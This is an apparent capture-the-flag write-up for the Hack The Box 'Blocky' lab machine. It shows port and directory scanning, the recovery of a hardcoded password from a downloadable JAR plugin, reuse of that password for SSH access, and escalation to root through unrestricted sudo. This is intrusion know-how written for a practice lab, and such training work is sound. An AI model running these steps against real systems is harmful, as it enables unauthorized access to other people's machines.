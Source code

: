 ```yaml
---
clayout: ctf
title: Blocky
date: 2025-08-19
image: /ctf/hack-the-box/machines/blocky/info-card.png
type: Hack The Box

ctf:
    - name: Blocky
      link: https://app.hackthebox.com/machines/48
      thumbnail: /ctf/hack-the-box/machines/blocky/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/48
          thumbnail: /ctf/hack-the-box/machines/blocky/pwned.png
---
```


## Machine Overview

**Blocky** is an easy-rated Linux machine from HackTheBox that combines elements of web enumeration, source code analysis, and weak credential management. The main entry point is a WordPress website hosting downloadable Java plugins. By analyzing one of these JAR files, we recover hardcoded database credentials, which also grant us SSH access as a user. Privilege escalation is trivial since the compromised user has unrestricted `sudo` rights, allowing immediate root access.

## Enumeration

### Network Enumeration

We start with a basic port scan:

```bash
nmap -sC -sV -A -oN nmap.txt 10.10.10.37
```

**Scan Results:**

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5a
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d62b99b4d5e753ce2bfcb5d79d79fba2 (RSA)
|   256 5d7f389570c9beac67a01e86e7978403 (ECDSA)
|_  256 09d5c204951a90ef87562597df837067 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://blocky.htb
```

## Web Enumeration

### Hostname Resolution

To properly resolve `blocky.htb`, we add an entry to `/etc/hosts`:

```bash
echo "10.10.10.37 blocky.htb" | sudo tee -a /etc/hosts
```

### Initial Web Application Access

Navigating to `http://blocky.htb/` reveals a **WordPress-based blog application**:

![Blocky Home Page](/ctf/hack-the-box/machines/blocky/home.png)

There is only one post, posted by a user `Notch`:

![Blocky Post](/ctf/hack-the-box/machines/blocky/post.png)

### Directory Enumeration

We use `gobuster` to enumerate hidden directories:

```bash
gobuster dir -u http://blocky.htb \
    -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt \
    -x php,html,txt \
    -o gobuster.txt
```

**Results:**

```bash
/index.php            (Status: 301) [Size: 0] [--> http://blocky.htb/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://blocky.htb/phpmyadmin/]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
/wp-login.php         (Status: 200) [Size: 2397]
/wp-trackback.php     (Status: 200) [Size: 135]
```

Looking at the `/plugins/` directory, we find two downloadable JAR files:

![Blocky Plugins](/ctf/hack-the-box/machines/blocky/plugins.png)

## Vulnerability Analysis & Exploitation

### Java Application Analysis

We extract the contents of `BlockyCore.jar` file:

```bash
jar xf BlockyCore.jar
```

Inside, we find a `BlockyCore.class` file, which reveals hardcoded database credentials:

```java
public class BlockyCore {
    public String sqlHost = "localhost";
    public String sqlUser = "root";
    public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
    // ... additional code
}
```

Although intended for database use, the password also works for SSH.
Using `notch:8YsqfCTnvxAUeduzjNSXe22`, we successfully log in as the `notch` user:

```bash
$ ssh notch@10.10.10.37
notch@10.10.10.37's password: 8YsqfCTnvxAUeduzjNSXe22
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

> [!NOTE] User Flag
> The user flag is in `/home/notch/user.txt` file.

## Privilege Escalation (notch to root)

### Sudo Privilege Escalation

We check for elevated privileges:

```bash
notch@Blocky:~$ sudo -l
# ...
User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

This means `notch` has unrestricted sudo access.

### Root Access

We escalate directly:

```bash
notch@Blocky:~$ sudo su -
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
```

> [!TIP]
> The `-` at the end of the `su` command make the shell a login shell. That means the shell will load the environment variables from the `/root/.bashrc` file.

> [!NOTE] Root Flag
> The root flag is in `/root/root.txt` file.
